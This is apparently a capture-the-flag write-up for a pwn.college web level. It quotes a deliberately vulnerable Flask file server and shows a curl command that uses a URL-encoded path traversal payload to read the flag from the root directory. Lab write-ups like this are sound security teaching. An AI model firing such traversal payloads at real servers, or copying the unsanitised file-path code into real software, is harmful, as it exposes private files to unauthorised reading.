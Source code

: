 For this level, we need to traverse the path of the server to read the flag in the root directory.

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
@app.route("/<path:path>", methods=["GET"])

def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")

    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This server configuration will take in an arbitrary path an just read the file specified by that path. By default, it will start out at the server's root path's `files` directory, which is `/challenge`. So we can use some path traversal technique to traverse up a level in the file hierarchy. We'll also need to URL encode the payload too.

```bash
curl -v "http://challenge.localhost:80/..%2f..%2fflag"
```